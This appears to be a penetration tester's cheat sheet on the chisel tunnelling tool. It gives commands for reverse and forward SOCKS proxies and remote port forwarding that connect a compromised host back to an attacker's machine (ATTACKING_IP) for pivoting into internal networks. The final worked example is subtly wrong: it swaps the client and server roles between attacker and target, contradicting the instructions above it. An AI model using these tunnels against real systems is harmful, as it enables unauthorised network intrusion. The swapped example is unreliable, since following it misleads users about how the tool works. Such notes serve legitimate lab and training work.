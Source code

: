 ## Chisel
*Setting Tunnel Proxy or port forwarding and has static binaries for linux and windows and doesn't require ssh *

chisel has 2 modes: client and server 
### Reverse SOCKS Proxy

On attacker box we use command
```
./chisel server -p LISTEN_PORT --reverse &
```
On compromised host
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

### Forward SOCKS Proxy
*Not really reliable because it will get caught by firewall pretty fast *

on compromised host 
```
./chisel server -p LISTEN_PORT --socks5
```
on attacker box
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
```
PROXY_PORT is the port that will be opened for the proxy

### Proxy Chains Reminder
When sending data through either of these proxies we could start set the port in our proxychains.conf as chisel uses a SOCKS5 proxy we will need to change the start of the line from socks4 to socks5

### Remote Port Forward
For a remote port forward
```
./chisel server -p LISTEN_PORT --reverse &
```

the command to connect back on the target
```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```
LISTEN_PORT is the port we started our listener on with chisel
LOCAL_PORT is the porn that will be opened on our attacking machine
e.g.
let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. 
On Attacker machine
```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```
On the target
```
./chisel server -p 1337 --reverse &
```
